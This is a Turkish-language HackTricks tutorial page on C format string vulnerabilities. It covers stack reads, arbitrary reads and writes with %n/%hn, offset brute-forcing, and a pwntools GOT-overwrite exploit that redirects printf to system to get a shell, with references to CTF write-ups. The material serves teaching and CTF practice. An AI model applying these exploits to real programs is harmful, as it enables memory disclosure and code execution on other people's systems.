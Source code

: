 # Format Strings

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking ipuçlarını paylaşın,** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı yazılı ve sözlü Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Temel Bilgiler

C'de **`printf`** bazı metinleri **yazdırmak için** kullanılabilen bir fonksiyondur. Bu fonksiyonun beklediği **ilk parametre**, **formatlayıcılarla birlikte ham metin**'dir. **Sonraki parametreler**, ham metindeki **formatlayıcıları** **değiştirmek için** beklenen **değerler**'dir.

Diğer savunmasız fonksiyonlar **`sprintf()`** ve **`fprintf()`**'dir.

Zafiyet, **bir saldırgan metni bu fonksiyona ilk argüman olarak kullanıldığında** ortaya çıkar. Saldırgan, **printf format** dizesinin yeteneklerini kötüye kullanarak **herhangi bir adreste (okunabilir/yazılabilir)** **herhangi bir veriyi okumak ve yazmak için** özel bir girdi oluşturabilecektir. Bu şekilde **rastgele kod çalıştırma** yeteneğine sahip olacaktır.

#### Formatlayıcılar:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Örnekler:**

* Açık örnek:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normal Kullanım:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Eksik Argümanlarla:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnerable:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pointer'lara Erişim**

Format **`%<n>$x`**, burada `n` bir sayı, printf'e yığın (stack) içinden n parametresini seçmesini belirtir. Yani printf kullanarak yığından 4. parametreyi okumak istiyorsanız şunu yapabilirsiniz:
```c
printf("%x %x %x %x")
```
ve birinci parametreden dördüncü parametreye kadar okuyabilirsiniz.

Ya da şunu yapabilirsiniz:
```c
printf("%4$x")
```
ve doğrudan dördüncüyü okuyun.

Saldırganın `printf` **parametresini kontrol ettiğini unutmayın, bu temelde** girdiğinin `printf` çağrıldığında yığın içinde olacağı anlamına gelir, bu da belirli bellek adreslerini yığında yazabileceği anlamına gelir.

{% hint style="danger" %}
Bu girişi kontrol eden bir saldırgan, **yığında rastgele adres ekleyebilecek ve `printf`'in bunlara erişmesini sağlayabilecektir**. Bir sonraki bölümde bu davranışın nasıl kullanılacağı açıklanacaktır.
{% endhint %}

## **Rastgele Okuma**

Biçimlendiriciyi **`%n$s`** kullanarak **`printf`'in** **n pozisyonunda** bulunan **adres**i alması ve **bunu bir dizeymiş gibi yazdırması** (0x00 bulunana kadar yazdır) mümkündür. Yani, ikili dosyanın temel adresi **`0x8048000`** ise ve kullanıcı girdisinin yığında 4. pozisyonda başladığını biliyorsak, ikilinin başlangıcını yazdırmak mümkündür:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Girişin başına 0x8048000 adresini koyamayacağınızı unutmayın çünkü dize, o adresin sonunda 0x00 ile kesilecektir.
{% endhint %}

### Ofseti Bul

Girişinizin ofsetini bulmak için 4 veya 8 bayt (`0x41414141`) gönderebilir ve ardından **`%1$x`** ile birlikte **değeri artırabilirsiniz** ve `A'leri` alana kadar devam edebilirsiniz.

<details>

<summary>Brute Force printf ofseti</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Ne kadar faydalı

Rastgele okumalar şunlar için faydalı olabilir:

* **Bellekten** **ikili** **veriyi** **dökme**
* **Hassas** **bilgilerin** saklandığı **belleğin belirli kısımlarına** erişim sağlama (örneğin, bu [**CTF zorluğu**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) gibi canary'ler, şifreleme anahtarları veya özel şifreler)

## **Rastgele Yazma**

Formatlayıcı **`%<num>$n`** **yazılan bayt sayısını** **belirtilen adrese** **yazar**. Eğer bir saldırgan printf ile istediği kadar karakter yazabiliyorsa, **`%<num>$n`**'nin rastgele bir sayıyı rastgele bir adrese yazmasını sağlayabilir.

Neyse ki, 9999 sayısını yazmak için girdiye 9999 "A" eklemek gerekmez, bunun yerine **`%.<num-write>%<num>$n`** formatlayıcısını kullanarak **`<num-write>`** sayısını **`num` konumunu gösteren adrese** yazmak mümkündür.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ancak, genellikle `0x08049724` gibi bir adres yazmak için (bu, bir seferde yazılması gereken BÜYÜK bir sayıdır), **`$hn`** kullanılır, **`$n`** yerine. Bu, **sadece 2 Bayt** yazmaya olanak tanır. Bu nedenle, bu işlem iki kez yapılır; bir kez adresin en yüksek 2B'si için ve bir kez de en düşük olanlar için.

Bu nedenle, bu zafiyet **herhangi bir adrese (keyfi yazma)** **herhangi bir şeyi yazmaya** olanak tanır.

Bu örnekte, hedef, daha sonra çağrılacak olan **GOT** tablosundaki bir **fonksiyonun** **adresini** **üst üste yazmak** olacaktır. Bu, diğer keyfi yazma ile exec tekniklerini kötüye kullanabilir:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Bir **fonksiyonu** **üst üste yazacağız** ki bu **kullanıcıdan** **argümanlarını** **alır** ve **`system`** **fonksiyonuna** **işaret eder**.\
Belirtildiği gibi, adresi yazmak için genellikle 2 adım gereklidir: Önce adresin 2 Bayt'ını yazarsınız ve sonra diğer 2'sini. Bunu yapmak için **`$hn`** kullanılır.

* **HOB**, adresin 2 yüksek baytına çağrılır
* **LOB**, adresin 2 düşük baytına çağrılır

Daha sonra, format dizesinin nasıl çalıştığı nedeniyle, önce \[HOB, LOB] içindeki en küçüğü **yazmanız** ve ardından diğerini yazmanız gerekir.

Eğer HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Eğer HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Şablonu

Bu tür bir zafiyet için bir exploit hazırlamak üzere bir **şablon** bulabilirsiniz:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ya da [**buradan**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) bu temel örneği inceleyebilirsiniz:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Bir format string zafiyetinin yazma eylemlerini kötüye kullanarak **stack'teki adreslere yazmak** ve **buffer overflow** türü bir zafiyeti istismar etmek mümkündür.

## Diğer Örnekler & Referanslar

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, format string kullanarak stack'ten flag'i sızdırmak için temel kullanım (işlem akışını değiştirmeye gerek yok)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, `fflush` adresini win fonksiyonu ile üzerine yazmak için format string (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, `.fini_array` içinde main'e bir adres yazmak için format string (böylece akış bir kez daha döner) ve `strlen`'a işaret eden GOT tablosundaki `system` adresini yazmak. Akış main'e döndüğünde, kullanıcı girişi ile `strlen` çalıştırılır ve `system`'a işaret eder, geçilen komutları çalıştırır.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı yazılı ve sözlü Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

HackTricks'i destekleyin

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.
{% endhint %}
